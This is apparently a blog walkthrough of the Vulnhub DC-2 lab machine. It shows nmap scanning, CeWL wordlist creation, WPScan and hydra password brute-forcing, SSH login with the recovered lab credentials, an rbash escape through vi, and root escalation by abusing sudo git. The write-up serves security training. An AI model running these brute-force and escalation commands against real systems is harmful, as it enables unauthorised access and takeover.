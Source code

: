 ```yaml
---
layout: single
title: Vulnhub DC-2 Walkthrough 
date: 2023-10-19
author_profile: true
categories:
  - DC-Series
tags: []
header:
  overlay_image: /assets/images/dc-2/cover.png
  overlay_filter: 0.3  # optional, darkens the image for readability
  caption: "DC-2 Vulnhub Walkthrough"
excerpt: "Step-by-step walkthrough of the DC-2 machine from Vulnhub."
feature_row:
  - image_path: /assets/images/dc-2/cover.png
    alt: "DC-2 Cover"
    title: "DC-2 Walkthrough"
    excerpt: "A practical guide to rooting the DC-1 Vulnhub machine."
    url: "#"
    btn_label: "Read More"
    btn_class: "btn--primary"
toc: true
toc_sticky: true
---
```


This box provided a valuable learning experience. To gain the initial foothold, I created a custom word list using the 'cwel' tools. After generating the word list, I executed WPScan with a password brute-force attack, which resulted in discovering two valid credentials for the web console. However, neither of these accounts had admin privileges, so we couldn't obtain a shell from there.

Next, we attempted SSH login, and Tom successfully logged into the machine. The default shell for the 'tom' user was 'rbash,' but we managed to escape from it using the 'vi' editor. This allowed us to access 'flag3.txt,' which contained a clue for switching to the 'jerry' user. We used the passwords obtained from WordPress for 'jerry,' and with 'jerry,' we ran 'git' as root. We successfully abused this to escalate privileges and gain root access.

# Information Gathering

First, I want to start with Nmap to identify the open ports and their associated services. If possible, Nmap will also provide information about the service versions and the operating system. This is a good starting point when working with any assets.


```bash
ports=$(nmap -p- --min-rate=1000 -T4 $IP | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) ; nmap -p$ports -sC -sV -oN nmap/service_scan $IP

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The Nmap results reveal that only two ports are open: port 80 and port 7744, which are hosting the HTTP and SSH servers, respectively. However, the SSH server is listening on an unusual port, as the developer has changed the default one. Unfortunately, I currently don't have any credentials to work with SSH, so I'll focus on the web server for now. 

Nmap indicates that it's redirecting to '[http://dc-2/](http://dc-2/)'. So, as a first step, let's add this entry to our hosts file.

```bash
echo '192.168.197.135 http://dc-2' | sudo tee -a /etc/hosts
```

Now we can access the web server through the url.

# Manual Inspection

![](/assets/images/dc-2/0.png)

It's a WordPress application with a navigation bar containing some links, but there doesn't seem to be any interactive content on the web server. The first idea that came to my mind is to initiate a scan of the application using WPScan. Since there isn't anything to interact with on the web server, I'd like to start by generating a password word list and then run WPScan for potential password brute-forcing in case I discover any valid usernames. To create the word list, I'll make use of the built-in tools available in Kali Linux, specifically the 'cweI' tool.

```bash
Command: cewl -d 3 -w password.txt $URL
Response: CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

![](/assets/images/dc-2/1.png)

Now that we have the word list, we can proceed with running WPScan. Typically, WordPress can reveal usernames if it's not configured securely. One common approach is to first enumerate the users and then construct the word list for the brute force attack. However, to simplify the process, I decided to take a shortcut and performed this step once.

```bash
wpscan --enumerate --passwords password.txt --url $URL

[+] URL: http://dc-2/ [192.168.197.135]
[+] Started: Wed Oct 18 03:58:39 2023

Interesting Finding(s):

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.2
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
--- snip ---
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

This time, I was fortunate enough to discover three users, including the admin. Additionally, it identified passwords for two of the users, except for the admin.

![](/assets/images/dc-2/2.png)

I have checked both users account none of them are admin. So there is no way to get shell from there. As we have two pair of valid user credentials and we saw earlier ssh server is open lets try to attempt password re-use attack against SSH.

SSH brute-force

```bash
hydra -L users.txt -P password.txt ssh://dc-2:7744

[7744][ssh] host: dc-2   login: tom   password: parturient
```

The tom user use the same password for web application and the ssh login. 

# Creds

<aside>
💡 jerry:adipiscing
tom:parturient

</aside>

# Initial Foothold

As hydra confirm tom’s password is valid for ssh, we can just login through ssh.

![](/assets/images/dc-2/3.png)

# Escaping rbash

The default shell is set for tom user was rbash. Which is a restricted bash environment. We need to escape this bash environment for better control over the system. I found some technique, as the vi is present so i decide to use the vi technique.

```bash
vi
:set shell=/bin/sh
:shell
/bin/bash
export PATH=/bin/:/usr/bin/:/usr/local/bin:$PATH
```

![](/assets/images/dc-2/4.png)

Now everything is okay i have a regular shell on the system.

# Post Enumeration

After escaping the 'rbash' shell, I simply ran the 'ls' command and discovered 'flag3.txt.' Inside 'flag3.txt,' there was a message indicating that Tom should switch over to the 'jerry' user. I attempted to switch using the password acquired from WordPress, and it succeeded.

![](/assets/images/dc-2/5.png)

After switch over to jerry i check the sudo permission for the jerry and found jerry can run git with sudo without password.

![](/assets/images/dc-2/6.png)

This is a possible way to elevate our privilege as root. I searched google and found GTFObins exploit.

# Privilege Escalation

At this point escalate our privilege is very easy. We just need to run git using sudo and add some extra flags -p help config and that’s it and we are root.

```
sudo git -p help config
!/bin/sh
```

![](/assets/images/dc-2/root.png)

#h@ppyh@cking